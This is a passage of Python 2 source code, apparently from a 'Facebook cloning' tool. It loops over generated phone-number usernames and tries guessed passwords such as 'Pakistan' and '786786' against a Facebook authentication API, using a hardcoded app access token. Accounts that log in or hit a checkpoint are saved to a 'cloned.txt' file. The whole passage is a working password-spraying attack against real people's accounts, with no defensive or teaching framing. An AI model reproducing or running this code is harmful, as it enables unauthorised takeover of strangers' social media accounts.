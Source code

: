                             data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;93m(Done)  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="Pakistan"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;93m(done)  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;93m(Done)  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                